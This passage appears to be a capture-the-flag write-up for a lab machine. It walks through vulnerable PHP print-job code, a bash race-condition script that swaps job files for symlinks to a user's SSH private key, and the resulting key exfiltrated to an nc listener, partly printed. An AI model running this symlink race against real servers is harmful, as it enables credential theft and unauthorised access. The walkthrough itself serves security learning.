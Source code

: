 ```bash
                                unlink("/var/www/jobs/".$file);                                                       
                        }                                                                                             
[...]
```
Looking through the code this looks like a race-condition to arbitrary file-read.

```php
$file = date("Y-m-d_H:i:s");
file_put_contents("/var/www/jobs/".$file,$_POST["desc"]); // Write to file with timestamp
chmod("/var/www/printer/jobs/".$file,"0777"); // Modifiable by every user
[...]
sleep(0.5); // Sleep that makes race-condition possible/easier
$printer->text(file_get_contents("/var/www/jobs/".$file)); // Send content of file to printer
```
The contents of the request are written to a file with the current timestamp. Now this file is modifiable by every user. The sleep of 0.5 seconds gives enough time to delete the file and create a symlink to the file that should be read instead.

## Exploiting the race condition
A simple bash-script should do the trick:
```bash
#!/bin/bash
cd /var/www/jobs;
while true;
do
        for file in $(ls .);
        do
                rm -f $file; # Delete file
                ln -s /home/srvadm/.ssh/id_rsa $file; # Symlink file that we want to read
        done
done
```
Assuming that srvadm has an SSH-Key, using this we should get the key send to the printer (our nc listener).
```bash
sam@quick:/dev/shm$ bash race.sh
```
Let us run the exploit in the background. After that we create a printjob for our printer.

```bash
sam@quick:/var/www/jobs$ ls -alh
total 8.0K
drwxrwxrwx 2 root root 4.0K Apr 26 21:43 .
drwxr-xr-x 5 root root 4.0K Mar 21 03:07 ..
lrwxrwxrwx 1 sam  sam    24 Apr 26 21:41 2020-04-26_21:40:46 -> /home/srvadm/.ssh/id_rsa
```
Upon creating the printjob, a file with the contents of the printjob is created. The bash script detects the file and exchanges it with a symlink to the SSH-key file.

```bash
Ncat: Connection from 10.10.10.186:50818.
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
[...]
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
```
After the 0.5 second sleep, the file is read again and its contents are send to our printer (the nc listener). We can now use this SSH-key file to login as srvadm via SSH.
